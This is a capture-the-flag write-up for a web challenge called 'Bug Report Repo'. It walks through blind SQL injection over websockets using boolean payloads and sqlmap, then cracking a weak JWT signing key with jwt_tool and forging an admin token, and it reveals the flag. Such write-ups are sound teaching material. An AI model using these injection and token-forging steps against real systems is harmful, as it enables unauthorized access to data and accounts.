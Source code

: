 ```yaml
---
CTF: INTIGRITI 1337UP LIVE 2023
Challenge Name: Bug Report Repo
Category: Web
Date: 17/11/23
Author: CryptoCat
Points: 342
Solves: 64
---
```

[![VIDEO](https://img.youtube.com/vi/kgndZOkgVxQ/0.jpg)](https://www.youtube.com/watch?v=VX445yn4lQ4 "Websocket SQLi and Weak JWT Signing Key")

### Description
>I started my own bug bounty platform! The UI is in the early stages but we've already got plenty of submissions. I wonder why I keep getting emails about a "critical" vulnerability report though, I don't see it anywhere on the system 😕

# Part 1: Websocket SQLi
- Players can use burp repeater to tamper with websocket requests, if they set the ID to 11, they will find an extra name `ethical_hacker`
- If they probe with quotes, they will see errors then quickly find SQLi
    - `{"id":"1 AND 1=1"}`
    - `{"id":"1 AND 1=2"}`
- Using this information, they will see need to dump the hidden row, either by filtering on `id`, `reported_by` or `severity`
- Players can write a script, but may find [this 2021 writeup from Rayhan](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) to use SQLMap, but the script won't work by default:
    - They need to change the `ws` protocol to `wss` for remote
    - The DB is SQLite instead of MySQL, negative values in SQLMap will cause the script to freeze - players will need to add a timeout or logic to skip negative values
- Launch the middleware script (sqlmap_proxy.py)
- `sqlmap -u "http://localhost:9999/?id=1" --batch --proxy=http://127.0.0.1:8080 -T bug_reports -C description --where id=11 --dump --threads 10`
- The hidden bug report is returned, which indicates there's an admin endpoint with weak creds
```bash
+--------------------------------------+
| description                          |
+--------------------------------------+
| crypt0:c4tz on /4dm1n_z0n3, really?! |
+--------------------------------------+
```

# Part 2: Weak JWT Signing Key
- Players visit `/4dm1n_z0n3` and login with `crypt0:c4tz`
- They see a message saying the key is only viewable by the admin
- Crack the JWT with hashcat/john/jwt_tool etc, finding the key `catsarethebest` (present in rockyou.txt), e.g. jwt_tool takes like 3 secs
    - `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -C -d /usr/share/wordlists/rockyou.txt`
- Forge JWT as admin, e.g. with jwt_tool
    - `jwt_tool eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6ImNhdCJ9.HJxAqYHm9TG8PBmMScRGsAPcK5vymC6AS4brUyfH7VA -S hs256 -p "catsarethebest" -I -pc identity -pv admin`
- Login with the new cookie, revealing the config key which is the flag!
```txt
INTIGRITI{w3b50ck37_5ql1_4nd_w34k_jw7}
```